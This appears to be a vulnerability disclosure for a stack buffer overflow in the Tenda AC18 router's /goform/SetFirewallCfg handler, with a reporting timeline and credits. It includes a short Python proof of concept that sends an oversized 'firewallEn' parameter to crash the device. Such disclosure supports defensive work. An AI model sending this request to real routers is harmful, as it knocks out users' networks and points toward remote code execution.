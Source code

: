 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/SetFirewallCfg` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `formSetFirewallCfg`.

In function `formSetFirewallCfg` it reads user provided parameter `firewallEn` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `dest`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/SetFirewallCfg`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/SetFirewallCfg?"
url += "firewallEn=" + "s" * 0x500

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.

